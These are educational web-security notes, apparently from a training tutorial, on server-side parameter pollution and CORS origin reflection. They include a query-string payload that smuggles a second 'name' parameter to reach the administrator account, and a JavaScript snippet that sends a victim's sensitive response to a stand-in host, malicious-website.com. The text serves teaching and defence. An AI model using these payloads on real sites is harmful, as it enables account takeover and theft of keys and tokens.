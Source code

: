 ##### Overriding existing params

To confirm whether the application is vulnerable to server-side parameter pollution, you could try to override the original parameter. Do this by injecting a second parameter with the same name.

For example, you could modify the query string to the following:

```
GET /userSearch?name=peter%26name=carlos&back=/home
```
This results in the following server-side request to the internal API:

```
GET /users/search?name=peter&name=carlos&publicProfile=true
```

he internal API interprets two name parameters. The impact of this depends on how the application processes the second parameter. This varies across different web technologies. For example:

- PHP parses the last parameter only. This would result in a user search for carlos.

- ASP.NET combines both parameters. This would result in a user search for peter,carlos, which might result in an Invalid username error message.

- Node.js / express parses the first parameter only. This would result in a user search for peter, giving an unchanged result.

If you're able to override the original parameter, you may be able to conduct an exploit. For example, you could add name=administrator to the request. This may enable you to log in as the administrator user.


Cross-Origin Resource sharing (CORS)
------------
#### Same-origin policy
#### Relaxation of the same-origin policy
##### Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed.

Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```
